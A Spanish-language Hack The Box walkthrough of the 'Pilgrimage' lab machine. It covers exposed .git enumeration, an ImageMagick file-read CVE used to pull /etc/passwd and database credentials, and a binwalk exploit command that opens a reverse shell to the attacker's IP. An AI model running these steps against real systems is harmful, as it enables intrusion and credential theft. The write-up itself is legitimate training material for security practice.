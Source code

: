 ```yaml
---
layout: single
title: Pilgrimage - Hack The Box
excerpt: "Para resolver esta máquina nos aprovechamos del código fuente del servicio web, que lo obtenemos al hacer la respectiva enumeración, donde allí veremos como funciona por detrás a la hora de subir una imagen, incluso viendo la versión de la herramienta que se utiliza para subir la imagen, la cual contiene una vulnerabilidad de las que nos aprovechamos para convertirla a LFI obteniendo credenciales válidas para conectarnos por SSH, para posterior a ello llevar un RCE para escalar nuestro privilegio."
date: 2023-10-30
classes: wide
header:
  teaser: /assets/images/htb-writeup-pilgrimage/pilgrimage_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
tags:
  - Enumeration Web (/.git)
  - file upload abuse
  - CVE-2022-44268
  - Arbitrary file read
  - LFI
  - abusing scripting bash
---
```


![](/assets/images/htb-writeup-pilgrimage/pilgrimage_logo.png)

Para resolver esta máquina nos aprovechamos del código fuente del servicio web, que lo obtenemos al hacer la respectiva enumeración, donde allí veremos como funciona por detrás a la hora de subir una imagen, incluso viendo la versión de la herramienta que se utiliza para subir la imagen, la cual contiene una vulnerabilidad de las que nos aprovechamos para convertirla a LFI obteniendo credenciales válidas para conectarnos por SSH, para posterior a ello llevar un RCE para escalar nuestro privilegio


# PortScan
_______

```
nmap -sCV -p22,80 -oN targeted 10.10.11.219

Nmap scan report for pilgrimage.htb (10.10.11.219)
Host is up (0.058s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 20be60d295f628c1b7e9e81706f168f3 (RSA)
|   256 0eb6a6a8c99b4173746e70180d5fe0af (ECDSA)
|_  256 d14e293c708669b4d72cc80b486e9804 (ED25519)
80/tcp open  http    nginx 1.18.0
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Pilgrimage - Shrink Your Images
| http-git: 
|   10.10.11.219:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: Pilgrimage image shrinking service initial commit. # Please ...
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Oct 30 09:58:12 2023 -- 1 IP address (1 host up) scanned in 9.34 seconds
```

# Sitio Web
________


![](/assets/images/htb-writeup-pilgrimage/Pasted image 20231030160138.png)

Tendríamos este sitio web, el cual podemos registrarnos, para loguerarnos y posterior a esto subir fotos, aunque no es necesario, pero sí nos logueamos sería más fácil para ver las fotos que hemos subido con su ruta de donde está subida.

Podemos analizar el código fuente, probar con credenciales básicas & default para intentar entrar como Root pero no encontaríamos nada, más no obstante al fuzzear la dirección del sitio web con "**GoBuster**", descubriríamos los siguientes directorios **Git**.

```
 gobuster dir -u http://pilgrimage.htb/ -w /usr/share/SecLists/Discovery/Web-Content/common.txt -t 20 -x php,html,js,txt


/.git/HEAD            (Status: 200) [Size: 23]
/.git/logs/           (Status: 403) [Size: 153]
/.git                 (Status: 301) [Size: 169] [--> http://pilgrimage.htb/.git/]
/.git/logs/.html      (Status: 403) [Size: 153]                                  
/.git/config          (Status: 200) [Size: 92]                                   
```

Vemos que el recurso **Git** que usualmente suele estar oculto está expuesto, estos podríamos descargarlo manualmente, pero sí indagamos podríamos encontrar herramientas qué descargan los recursos automáticamente, como por ejemplo esta [Git Dumper](https://github.com/arthaud/git-dumper), la cual nos descargará los recursos de la URL indicada con el directorio **/.git** indicado, sé recomienda leer cómo usarla en el repositorio de la misma herramienta.


![](/assets/images/htb-writeup-pilgrimage/Pasted image 20231030161111.png)

Sí nos abrimos el "**index.php**".


![](/assets/images/htb-writeup-pilgrimage/Pasted image 20231030161308.png)


Notaremos qué está usando el el "**Magick Convert**", para hacer un resize del %50, y meterlo en la ruta de descargar con un nuevo nombre, y la extensión de la imagen, y más abajo nos chiva la ruta absoluta donde está guardando esto.

al descargar los recursos, obtuvimos el binario del "**magick**", así que procedemos a ver la versión para poder ver si está desactualizada y es vulnerable a algo.

![](/assets/images/htb-writeup-sau/Pasted image 20231030161752.png)

Sí indagamos en busca de vulnerabilidades de esta versión de **magick**, encontraríamos una vulnerabilidad de un "**Arbitrary File Read**" en [Exploit-DB](https://www.exploit-db.com/exploits/51261), la cuál nos facilita un [PoC](https://github.com/voidz0r/CVE-2022-44268), del cuál podemos aprovecharnos para crear imágenes "contaminadas" para aprovecharnos del File Read, y llevar a cabo un LFI.

Una vez subamos la imagen, nos descargamos la misma imagen en local con "wget" para visualizar los metadatos de la misma con "identify".

![](/assets/images/htb-writeup-pilgrimage/Pasted image 20231030163405.png)

Nos representará una cadena en **hexadecimal**, la cual debemos convertir en texto claro para que sea legible y en éste caso ver el "/etc/passwd", en este caso usaremos un convertidor online para convertirlo en texto claro.

![](/assets/images/htb-writeup-pilgrimage/Pasted image 20231030163639.png)


Como vemos hemos llevado a cabo un **LFI** y leído el passwd, pero sí intentamos listar las claves del .ssh no veremos nada, ni indagando encontraríamos nada interesante, por lo qué nos aprovechamos qué sabemos la ruta absoluta de la db, que es "**/var/db/pilgrimage**" para tratar de ver sí conseguimos credenciales.

![](/assets/images/htb-writeup-pilgrimage/Pasted image 20231030164035.png)

En la cual al convertirla a texto plano encontraríamos las credenciales de **emily** para conectarnos a través de **SSH**.


# Escalada de Privilegios
_________


Usamos **pspy64** para buscar posibles brechas qué podamos aprovechar para escalar nuestro privilegios a Root.

![](/assets/images/htb-writeup-pilgrimage/Pasted image 20231030164924.png)

Vemos qué Root está ejecutando un script en bash, en el cual podemos leer y dentro tiene el siguiente código:

```bash
#!/bin/bash

blacklist=("Executable script" "Microsoft executable")

/usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/ | while read FILE; do
        filename="/var/www/pilgrimage.htb/shrunk/$(/usr/bin/echo "$FILE" | /usr/bin/tail -n 1 | /usr/bin/sed -n -e 's/^.*CREATE //p')"
        binout="$(/usr/local/bin/binwalk -e "$filename")"
        for banned in "${blacklist[@]}"; do
                if [[ "$binout" == *"$banned"* ]]; then
                        /usr/bin/rm "$filename"
                        break
                fi
        done
done

```

El script monitorea el directorio `/var/www/pilgrimage.htb/shrunk/` en busca de archivos recién creados. Luego, verifica si el contenido de cada archivo contiene ciertas cadenas de texto prohibidas, como "Executable script" o "Microsoft executable". Si se encuentra alguna de estas cadenas, el archivo se elimina automáticamente, y lo está haciendo con el binario binwalk.

![](/assets/images/htb-writeup-pilgrimage/Pasted image 20231030165452.png)

Cuyo versión **binwalk**, sí indagamos en busca de vulnerabilidades encontraremos qué podemos llevar a cabo un **RCE** con esta versión en específico según Exploit-DB, el cual ahí mismo nos proporciona un exploit programado en python para otorgarnos una Reverse Shell. [(Click aquí para ver exploit)](https://www.exploit-db.com/exploits/51249)

El cuál debemos ejecutarnos estando en la ruta "/var/www/pilgrimage.htb/shrunk" y indicar los parámetros de nuestra IP que estarmos escuchando y nuestro puerto.

```
python3 exploit.py image.png 10.10.14.x 443
```

![](/assets/images/htb-writeup-pilgrimage/Pasted image 20231030170607.png)
